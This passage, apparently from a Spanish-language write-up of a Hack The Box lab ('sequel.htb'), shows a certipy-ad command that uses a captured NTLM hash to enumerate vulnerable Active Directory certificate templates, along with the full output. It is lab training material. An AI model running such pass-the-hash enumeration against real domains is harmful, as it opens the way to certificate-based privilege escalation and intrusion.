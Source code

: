 	Ejecutaremos el siguiente comando

```bash
──(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ certipy-ad find -vulnerable -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
```